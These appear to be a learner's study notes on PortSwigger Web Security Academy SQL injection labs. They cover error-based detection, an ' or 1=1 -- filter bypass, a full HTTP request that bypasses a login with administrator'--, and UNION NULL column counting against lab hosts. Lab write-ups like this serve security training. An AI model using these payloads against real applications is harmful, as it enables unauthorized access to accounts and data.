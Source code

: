 https://www.youtube.com/watch?v=wX6tszfgYp4

To test if sqli exists or not
1) use  ( ' ) as input and if it shows some error   , then
2) use ( '-- ) if it shows  200 ok response that means SQLi is present
because at ( ' ) the sql shows error due to syntax error, but at ( '-- ) the -- comments out the rest of the sql query being executed hence request dont show error.


# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data                                  video: https://www.youtube.com/watch?v=X1X1UdaC_90

notes:
SQLi Product category filter (https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data) 


Query structure : SELECT * FROM products WHER
E category = 'Gifts' AND released = 1

end goal: display all products regardless of category both released and unreleased.
application by default do show unreleased product to user but sqli does it.

Analysis:

https://0a6c008403c5a91d8394f18000c4007b.web-security-academy.net/filter?category=Corporate+gifts for the url 
the query is  
SELECT * FROM products WHERE category = 'Corporate+gifts' AND released = 1

when we put ( ' ) to test the sqli   
https://0a6c008403c5a91d8394f18000c4007b.web-security-academy.net/filter?category='
for the url 
the query is  
SELECT * FROM products WHERE category = ''' AND released = 1

and it shows internal server error 


SELECT * FROM products WHERE category = ' '-- ' AND released = 1
then use  '-- , now it shows empty means the query executed hence sqli present


SELECT * FROM products WHERE category = ' '  or 1=1 -- ' AND released = 1
then use **'  or 1=1 --**  now it shows all product  means the query executed hence sqli exploited.




# Lab: SQL injection vulnerability allowing login bypass
Link: https://portswigger.net/web-security/sql-injection/lab-login-bypass


request sent for exploiting the sqli:
`POST /login HTTP/2`
`Host: 0aa7008f03eaa71f85d6a4ef008900df.web-security-academy.net`
`Cookie: session=QE7wOVq0qOUdFqMPKnt2jdgFzMOR1RFC`
`User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0`
`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8`
`Accept-Language: en-US,en;q=0.5`
`Accept-Encoding: gzip, deflate, br`
`Content-Type: application/x-www-form-urlencoded`
`Content-Length: 81`
`Origin: https://0aa7008f03eaa71f85d6a4ef008900df.web-security-academy.net`
`Referer: https://0aa7008f03eaa71f85d6a4ef008900df.web-security-academy.net/login`
`Upgrade-Insecure-Requests: 1`
`Sec-Fetch-Dest: document`
`Sec-Fetch-Mode: navigate`
`Sec-Fetch-Site: same-origin`
`Sec-Fetch-User: ?1`
`Priority: u=0, i`
`Te: trailers`

`csrf=8ePpuDgiMTtIpvIa5QFCXEvVy8eY4ZZb&username=administrator%27--&password=%27%27`


The above request have the below url structure and Query structure
https://0a9000f803024633818f758c0079008f.web-security-academy.net/my-account?id=administrator

SELECT firstname FROM products WHERE username= 'administrator'--' and password=' '




# Retrieving data from other database tables i.e [SQL injection UNION attacks]


**SQL injection UNION attacks** :
https://portswigger.net/web-security/sql-injection/union-attacks


# Lab: SQL injection UNION attack, determining the number of columns returned by the query
(https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

solution video: https://www.youtube.com/watch?v=umXGHbEyW5I

Explaination of video:

SQLi - Product category filter

End Goal: determine the number of columns returned by the query. 

Background (Union):

table1      table2
a | b       c | d 
-----       -----
1 , 2       2 , 3
3 , 4       4 , 5



Query #1: select a, b from table1
1,2
3,4

Query #2: select a, b from table1 UNION select c,d from table2
1,2
3,4
2,3
4,5




Rule: 
- The number and the order of the columns must be the same in all queries
- The data types must be compatible


SQLi attack (way #1):  Union operator SQL(Microsoft):
https://learn.microsoft.com/en-us/sql/t-sql/language-elements/set-operators-union-transact-sql?view=sql-server-ver16

select ? from table1 UNION select NULL
-error -> incorrect number of columns

select ? from table1 UNION select NULL, NULL, NULL
-200 response code -> correct number of columns


SQLi attack (way #2):  Order by operator SQL(Microsoft):
https://learn.microsoft.com/en-us/sql/t-sql/queries/select-order-by-clause-transact-sql?view=sql-server-ver16

select a, b from table1 order by 3




Query used to solve this lab was:
``` https://0aed007503ed3a1fa9f7494e002b00e3.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+NULL,NULL,NULL-- 
